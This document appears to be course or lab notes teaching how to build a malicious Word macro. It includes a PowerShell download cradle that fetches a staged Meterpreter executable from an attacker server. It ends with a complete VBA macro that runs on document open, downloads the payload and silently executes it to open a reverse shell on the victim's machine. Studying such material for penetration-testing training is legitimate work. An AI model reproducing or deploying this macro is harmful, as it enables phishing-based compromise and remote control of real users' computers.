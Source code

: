 `downloadfile` takes two arguments: the url of the file to be downloaded and the output filename. the entire download procedure can be written in just four lines of powershell:
```powershell
$url = "http://192.168.119.120/msfstaged.exe"
$out = "msfstaged.exe"
$wc = New-Object Net.WebClient
$wc.DownloadFile($url, $out)
```

in this code listing, we created a variable for the file we want to download, then a variable for the name of the local file. next, we instantiated the `net.webclient` class to create a download cradle from which we then invoke the `downloadfile` method to download the file. in this case, we used the same staged meterpreter executable we created earlier.

we can compress this into a single one-liner:
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')
```

let's embed this into our word macro using vba and have powershell do the heavy lifting for us. we will slowly build it here, piece by piece, and then review the completed code.

***Most PowerShell download cradles use HTTP or HTTPS, but we could use [TXT records](https://en.wikipedia.org/wiki/TXT_record) and a [DNS transport](https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle) instead.***


let's start writing our vba code. the first step is to declare our string variable and fill that string with the powershell download cradle code. next, we'll use the `shell` method to start powershell with the one-liner as an argument. we'll then instruct the `shell` method to run the code and hide the output from the user.

This code segment will download the file to the victim's machine:

```vba
Dim str As String
str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
Shell str, vbHide
```

before executing this code, we must place the meterpreter executable (**msfstaged.exe**) on our kali web server along with a multi/handler listener.

to execute the meterpreter executable through vba, we must specify the full path. luckily, downloaded content will end up in the current folder of the word document and we can obtain the path name with the `activedocument.path` property:

```
Dim exePath As String
exePath = ActiveDocument.Path & "\" & "msfstaged.exe"
```

since we are downloading the meterpreter executable from a web server and the download time may vary, we must introduce a time delay. unfortunately, microsoft word does not have a `wait` or `sleep` vba function like excel, so we'll implement a custom `wait` method using a [_Do_ loop](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/doloop-statement) along with the [_Now_](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/now-function) and [_DateAdd_](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/dateadd-function) functions.
this will allow us to pass a `wait` parameter (measured in seconds) to pause the execution. to ensure that our _wait_ procedure does not block microsoft word, each iteration calls [_DoEvents_](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/doevents-function) allowing word to process other actions.
to do this, we'll retrieve the current date and time with the `now` function and save it to the _t_ variable. then we'll use a _do_ loop, which will work through the comparison declared in the _loop until_ statement.

```
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

this code will continue to loop until the comparison is true, which happens when the current time (returned by _now_) is greater than the time returned by the `dateadd` function. this function takes three arguments: a string expression that represents the interval of time (_s_), the number of seconds to wait (_n_), and the current time (_t_).

simply stated, _n_ seconds are added to the time the loop starts, and the result is compared to the current time. once _n_ seconds have passed, the loop completes.

with our `wait` method implemented, we just need to invoke it and then execute the meterpreter executable. to do that, we'll again use the `shell` function and call the _exepath_ we created.

here's the complete vba macro:


```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path & "\" & "msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

Let's review what we did. We built a Word document. When the document is opened, and macros are enabled, our code pulls the Meterpreter executable from our web server. We added a slight time delay to allow the file to completely download. Finally, we executed our payload (which is hidden from the user) which results in a reverse Meterpreter shell.

#### 2. Labs
![[Pasted image 20250623190706.png]]